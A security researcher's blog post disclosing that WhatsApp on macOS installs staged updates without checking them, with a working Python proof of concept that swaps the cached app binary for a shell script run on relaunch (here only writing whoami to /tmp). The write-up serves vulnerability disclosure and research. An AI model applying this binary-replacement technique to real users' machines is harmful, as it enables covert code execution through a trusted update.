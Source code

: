 ```yaml
---
title: Abusing WhatsApp update process on macOS
description: Hijacking update process to plant our own binary
date: 2024-05-07T14:10:44.585819+02:00
toc: false
tags:
    - reverse-engineering
    - macos
refs:
draft: false
---
```


# Introduction

About a month ago, I have reported this to the WhatsApp team, and they refused to acknowledge this as a 
vulnerability, so I have waited for the new version to write a blog post about the issue.

Basically, during the update time no checks have been made to confirm whether the update is legit.

![WhatsApp response](../images/wa_response.png)

I agree with their answer that an attacker could make something much worse, but still a fun issue to write about because 
there may be other applications that are vulnerable to this and may be impact can be greater than the simply replacing binary like 
it is described here.

## Analysis

Once the update is downloaded and ready to be installed, you will see the following window.

![a](../images/wa_update_ready.png)

Update that is ready to be installed can be found in the `~/Library/Caches/net.whatsapp.WhatsApp/org.sparkle-project.Sparkle/Installation/RANDOM_ID/` which contains 
`WhatsApp.app`.

![Content of the update directory](../images/wa_update_dir_content.png)

By default, SIP (System Integrity Protection) prevents modifications inside of `/Applications` directory which can be seen on the image below, but with this "vulnerability" we can do that.

![SIP confirmation](../images/wa_sip_enabled.png)

Even though the SIP blocks this, we can still abuse the update process to plant our own binary in this case a 
simple shell script that writes current user to `/tmp/output` file.

```python
#!/usr/bin/env python3
import glob
import os
import stat

content = """#!/bin/sh

whoami > /tmp/output
"""

def main():
    # get the path to the directory
    base_path = os.path.expanduser('~/Library/Caches/net.whatsapp.WhatsApp/org.sparkle-project.Sparkle/Installation/')
    update_dir = glob.glob(base_path + '*/WhatsApp.app/Contents/MacOS', recursive=False)

    if len(update_dir) != 1:
        print("Update not found")
        print("Exiting...")
        exit()

    # obtain the binary path
    binary_path = os.path.join(update_dir[0], 'WhatsApp')

    print("Update found")
    print("Replacing the file")

    # Remove real WhatsApp binary
    os.remove(binary_path)

    # Write the content
    with open(binary_path, "w") as f:
        f.write(content)

    # give executable permissions to planted binary
    st = os.stat(binary_path)
    os.chmod(binary_path, st.st_mode | stat.S_IEXEC)

if __name__ == "__main__":
    main()
```

After running it, we can confirm that the shell script is now there instead of the original binary.

![Running exploit](../images/wa_running_exploit.png)

Now, the only thing left is to click on `Install and Relaunch` or wait for the user to do it and on the new run, we can see 
that our exploit is working correctly.

![Running WhatsApp](../images/wa_after_run.png)